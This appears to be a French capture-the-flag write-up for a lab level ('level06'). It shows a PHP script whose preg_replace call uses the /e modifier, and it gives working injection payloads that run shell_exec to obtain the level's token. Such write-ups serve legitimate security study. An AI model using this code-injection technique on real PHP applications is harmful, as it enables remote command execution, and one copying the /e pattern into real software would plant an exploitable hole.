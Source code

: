 ## Démarche

```
ls
```
> level06  level06.php

```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

```
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

> ./level06

> PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

- Regexp
  
    **Pour x(y, z)**

    1. `(\[x (.*)\])` devient `y("\2")`
        - ex : `([x coucou])` -> `(y("coucou"))`
    2. `[` devient `(`
    3. `]` devient `)`

    Donc, `[x coucou]` -> `[y("coucou")]`

    **Pour y(m)**

    1. `.` devient ` x `
    2. `@` devient ` y`
   
- le `/e` :  
    > The e modifier is a deprecated regex modifier which allows you to use PHP code within your regular expression. This means that whatever you parse in will be evaluated as a part of your program.

- Trouver comment exécuter getflag en passer la bonne syntaxe en paramètre : 
  
`echo "[x {\${shell_exec(getflag)}}]" > /tmp/test06 && ./level06 /tmp/test06`

```
echo '[x ${`getflag`}]' > /tmp/getflag`
```

```
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

## Ressources

- php beautifier
- regexp
- https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
- https://www.it-connect.fr/executer-des-commandes-shell-par-un-script-php/
